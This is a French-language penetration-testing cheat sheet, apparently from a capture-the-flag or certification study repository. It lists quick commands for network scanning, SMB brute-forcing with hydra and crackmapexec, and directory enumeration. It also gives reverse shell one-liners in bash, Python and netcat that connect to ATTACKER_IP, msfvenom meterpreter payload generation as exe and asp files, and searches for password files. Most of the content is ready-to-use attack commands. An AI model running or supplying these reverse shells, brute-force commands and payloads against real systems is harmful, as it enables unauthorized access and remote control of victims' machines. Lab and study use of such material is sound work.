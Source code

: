 # ⚡ Commandes Rapides

[← Retour à la table des matières](../README.md)

## 📋 Table des Matières
- [Scan Initial](#scan-initial-rapide)
- [Énumération Express](#énumération-express-par-service)
- [Reverse Shells](#reverse-shells-rapides)
- [Recherche d'Exploits](#recherche-dexploits)
- [Commandes Windows](#commandes-windows-utiles)
- [Génération de Payloads](#génération-rapide-de-payloads)
- [Recherche de Fichiers](#recherche-de-fichiers)

## Scan initial rapide
```bash
# Host discovery
nmap -sn target.0/24

# Port scan rapide
nmap -F targetIP

# Scan complet
nmap -sC -sV -O targetIP
```

## Énumération express par service
```bash
# HTTP
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirb/common.txt

# SMB - Méthodologie complète → [📖 Guide Hydra](../06-tools/hydra.md) [📖 Guide CrackMapExec](../06-tools/crackmapexec.md) [📖 Guide SMBClient](../06-tools/smbclient.md)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
crackmapexec smb targetIP -u username -p password --shares
smbclient //targetIP/C$ -U administrator

# SMB - Énumération basique → [📖 Guide SMBClient](../06-tools/smbclient.md)
enum4linux -a targetIP
smbclient -L targetIP -N

# FTP
ftp targetIP  # anonymous:anonymous

# SSH
ssh targetIP  # Tester comptes par défaut
```

## Reverse shells rapides
```bash
# Bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/PORT 0>&1'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/sh ATTACKER_IP PORT
```

## Listener
```bash
nc -nvlp PORT
```

## Recherche d'exploits
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"
```

## Commandes Windows utiles

### Recherche de flags
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Connexion RDP depuis Linux
```bash
xfreerdp /u:username /p:password /v:targetIP:targetPort
```

## Génération rapide de payloads → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Meterpreter Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f exe > shell.exe

# ASP pour WebDAV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```

## Recherche d'exploits → [📖 Guide Searchsploit](../06-tools/searchsploit.md)
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"

# Vérifier les versions après énumération
searchsploit "apache 2.4.7"
```

## Recherche de fichiers
```bash
# Recherche de fichiers par nom (Linux)
find / -name "*flag*" 2>/dev/null
find / -name "*password*" 2>/dev/null

# Recherche de fichiers spécifiques
find / -name "*FlageSearch*" 2>/dev/null
```